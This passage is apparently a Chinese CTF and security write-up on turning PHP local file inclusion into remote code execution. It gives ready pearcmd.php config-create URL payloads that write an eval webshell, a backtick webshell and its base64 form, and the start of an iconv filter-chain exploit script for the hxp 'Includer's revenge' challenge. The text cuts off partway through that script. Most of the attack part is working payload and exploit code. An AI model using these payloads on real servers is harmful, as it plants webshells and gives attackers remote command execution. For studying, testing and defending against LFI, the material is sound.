 ##### pearcmd.php的巧妙利用
需要开启`register_argc_argv`这个配置
pear中的命令config-create，这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中
```
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

这里我使用的官方提供的`php:7.4-apache`，首先运行docker：
```bash
docker run -d --name web -p 8080:80 -v $(pwd):/var/www/html php:7.4-apache
```
运行我们的payload
```
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST[0])?>+/tmp/1.php
```
![](https://img-blog.csdnimg.cn/ae9ef00e712c4145b43e354c53e5d263.png)
成功执行命令
![](https://img-blog.csdnimg.cn/9dc1699ab9874642b4919941076f262a.png)

还可以尝试别的路径：`/usr/share/php/pearcmd.php`


参考：[Docker PHP裸文件本地包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)
[文件包含&奇技淫巧](https://zhuanlan.zhihu.com/p/62958418)
[LFItoRCE利用总结 ](https://www.anquanke.com/post/id/177491)

##### hxp[Includer's revenge]
```php
<?php ($_GET['action'] ?? 'read' ) === 'read' ? readfile($_GET['file'] ?? 'index.php') : include_once($_GET['file'] ?? 'index.php');
```
因为最终的 base64 字符串，是由 iconv 相对应的编码规则生成的，所以我们最好通过已有的编码规则来适当地匹配自己想要的 webshell ，比如
```php
<?=`$_GET[0]`;;?>
```
以上 payload 的 base64 编码为 `PD89YCRfR0VUWzBdYDs7Pz4=` ，而如果只使用了一个分号，则编码结果为 `PD89YCRfR0VUWzBdYDs/Pg==` ，这里 7 可能相对于斜杠比较好找一些，也可能是 exp 作者没有 fuzz 或者找到斜杠的生成规则，所以作者这里使用了两个分号避开了最终 base64 编码中的斜杠
最后的exp:
```php
<?php
$base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4";
$conversions = array(
    'R' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
```